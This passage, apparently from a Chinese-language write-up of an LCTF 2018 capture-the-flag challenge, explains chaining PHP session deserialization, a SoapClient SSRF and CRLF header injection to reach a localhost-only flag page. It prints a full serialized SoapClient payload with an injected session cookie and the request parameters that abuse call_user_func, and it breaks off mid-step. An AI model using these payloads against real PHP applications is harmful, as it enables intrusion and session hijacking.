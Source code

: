 得到序列化串:

```
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

当然因为REMOTE_ADDR要为127.0.0.1,所以我们的目标url就要修改为`http://127.0.0.1/flag.php`

然后通过CRLF来自定义一个cookie,插入我们的session

不过这里没有明显的反序列化的点,但是看到用一个session_start

猜想应该是要利用session的反序列化漏洞,于是将这段session用php_serialize的处理器储存起来

本来应该是用ini_set()来改变session储存格式的,但是我们序列化对象有一个数组,而这个函数却不支持数组,所以我们只能用session_start()函数来代替了

但是我们应该怎么去设置这里的session.serialize_handler呢？

注意到源码中存在一个call_user_func()函数`call_user_func($_GET['f'], $_POST);`

我们传参

```
GET:?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

POST:serialize_handler=php_serialize
```

传值的时候要加竖线(|)来触发session反序列化

这只是第一步传参

![image-20210602135337406](images/12.png)

此时最下面那个`call_user_func($b,$a)`函数是这样的:

```
call_user_func('implode',array(reset($_SESSION),'welcome_to_the_lctf2018'))
```

这样无法触发我们的session反序列化,也无法触发ssrf漏洞,目前只是存储了一个session值

如果这样:
